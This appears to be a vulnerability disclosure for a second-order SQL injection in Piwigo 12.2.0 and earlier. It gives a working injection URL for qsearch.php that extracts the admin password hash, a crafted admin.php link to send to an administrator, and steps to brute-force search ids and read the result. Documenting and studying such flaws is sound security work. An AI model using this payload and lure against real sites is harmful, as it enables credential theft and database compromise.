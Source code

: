 ## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. 
 When an administrator open the URL, the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Step 1**
 
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`

And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`

Record the value of the id.



**Step 2**
 
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.


 
**Step 3**
 
After an administrator open the URL above, a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table. If we want to retrieve the data, we need to know the id of the data that has been inserted into the piwigo_search table. Because the id is incremental, we can just bruteforce it.


Then we request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
 
![2](21.png)
 

